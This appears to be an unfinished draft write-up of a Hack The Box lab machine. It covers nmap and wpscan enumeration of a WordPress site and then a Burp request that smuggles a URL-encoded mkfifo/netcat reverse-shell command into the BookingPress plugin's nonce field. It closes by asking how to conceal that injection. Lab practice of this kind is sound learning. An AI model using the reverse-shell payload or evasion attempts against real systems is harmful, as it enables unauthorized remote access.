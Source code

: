 ## Discovery
First things's first: we run NMAP. I like to use 
```
$ nmap -A 10.10.11.186
```
to get as much as info about the target machine as possible. 

We find there is a HTTP server on port 80. If you try to access it, you may find that the name cannot be resolved. In this case we need to tell Kali to resolve it locally by running:
```
$ sudo vim /etc/hosts
```
and simply adding the ip address and the name metapress.htb in the file like this:
```
127.0.0.1       localhost
127.0.1.1       kali

10.10.11.186    metapress.htb
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
```
NOTE: If you are inexperienced with ```vim```, its better to use ```nano``` in this case. 

** HERE EXPLAIN ABOUT GOING TO THE WEBSITE, ITS WORDPRESS, CLICKING AROUND IN THE WEBSITE, DIRBUSTER BUT TO NO AVAIL **

After a bit of research about the best hacking tools for WordPress I came accross a tool called ```wpscan``` . There are many tutorials but I referred to https://www.youtube.com/watch?v=Z9QPazbfwFE in order to learn the basics. So, after you register in http://wpscan.com and get your token, you can do some real enumeration. Run the following command (with your own wpscan API token):
```
wpscan --url metapress.htb --enumerate --api-token <API TOKEN>
```
A lot of useful information comes up. We are dealing with WP version 5.6.2. Another highlight of the scan:
```
[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://metapress.htb/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://metapress.htb/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```
Now we know there is an author account. The output also contains info that this WP version is vulnerable and it lists a handful of vulnerabilities. The author part may come in handy but how do we choose from all of these vulnerabilities? At this point I was quite confused myself. So, I went on and inspected some of the traffic with ```burpsuite```. The main functionality of the website is making bookings for an event. At closer inspection, the metapress.htb/events/ page reveals that the "bookingpress-appointment-booking" plugin is used. It is quite confusing why the wpscan tool didn't find it. If you had a similar problem and know the solution, please do no shy away from sharing with me. 




when I send (via repeater in burpsuite):
```
POST /wp-admin/admin-ajax.php HTTP/1.1

Host: metapress.htb

Content-Length: 1098

Accept: application/json, text/plain, */*

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

Content-Type: application/x-www-form-urlencoded

Origin: http://metapress.htb

Referer: http://metapress.htb/events/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: PHPSESSID=kfropsmmbk11sa8u4o510mdavh

Connection: close



action=bookingpress_before_book_appointment&appointment_data%5Bselected_category%5D=1&appointment_data%5Bselected_cat_name%5D=&appointment_data%5Bselected_service%5D=1

&appointment_data%5Bselected_service_name%5D=Startup%20meeting&appointment_data%5Bselected_service_price%5D=%240.00&appointment_data%5Bservice_price_without_currency%5D=0&appointment_data%5Bselected_date%5D=2022-12-06&appointment_data%5Bselected_start_time%5D=09%3A00&appointment_data%5Bselected_end_time%5D=09%3A30&appointment_data%5Bcustomer_name%5D=&appointment_data%5Bcustomer_firstname%5D=Lyuben&appointment_data%5Bcustomer_lastname%5D=Petrov&appointment_data%5Bcustomer_phone%5D=124124&appointment_data%5Bcustomer_email%5D=laina%40lainata.com&appointment_data%5Bappointment_note%5D=lailaina&appointment_data%5Bselected_payment_method%5D=&appointment_data%5Bcustomer_phone_country%5D=US&appointment_data%5Btotal_services%5D=&appointment_data%5Bstime%5D=1670376132&appointment_data%5Bspam_captcha%5D=4ENmLFaOTr5f&_wpnonce=3b7661e5b0;rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|sh%20-i%202>%261|nc%2010.10.14.198%201234%20>/tmp/f
```
where ```rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|sh%20-i%202>%261|nc%2010.10.14.198%201234%20>/tmp/f``` is the URL-encoded injection.

I get a response: 
```
{"variant":"error","title":"Error","msg":"Sorry, Your request can not process due to security reason.","redirect_url":""}
```
is "nonce" the vulnerable parameter? How do I conceal the injection?
